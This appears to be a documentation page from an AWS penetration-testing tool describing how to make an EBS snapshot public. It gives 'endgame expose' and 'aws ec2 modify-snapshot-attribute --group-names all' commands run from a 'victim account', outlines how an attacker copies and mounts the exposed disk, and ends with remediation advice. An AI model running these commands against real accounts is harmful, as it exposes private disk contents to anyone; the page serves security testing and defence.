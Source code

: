 # EBS Snapshot Exposure

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export SNAPSHOT_ID=snap-1234567890abcdef0

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using the AWS CLI, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 modify-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission \
    --operation-type add \
    --group-names all
```

* To view the contents of the exposed resource policy, run the following:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 describe-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission
```

* Observe that the contents match the example shown below.

## Example

The response of `aws ec2 describe-snapshot-attribute` will match the below, indicating that the EBS snapshot is public.

```json
{
    "SnapshotId": "snap-066877671789bd71b",
    "CreateVolumePermissions": [
        {
            "Group": "all"
        }
    ]
}
```

## Exploitation

After an EBS Snapshot is made public, an attacker can then:
* [copy the public snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html) to their own account
* Use the snapshot to create an EBS volume
* Attach the EBS volume to their own EC2 instance and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that EBS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the EBS Snapshot.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EBS Snapshots**: Tightly control access to the following IAM actions:
  - [ec2:ModifySnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifySnapshotAttribute.html): _Grants permission to add or remove permission settings for a snapshot_
  - [ec2:DescribeSnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshotAttribute.html): _Grants permission to describe an attribute of a snapshot. This includes information on which accounts the snapshot has been shared with._
  - [ec2:DescribeSnapshots](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshots.html): _Grants permission to describe one or more EBS snapshots_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [Sharing an Unencrypted Snapshot using the Console](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html#share-unencrypted-snapshot)
* [Share a snapshot using the command line](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html)
* [aws ec2 copy-snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html)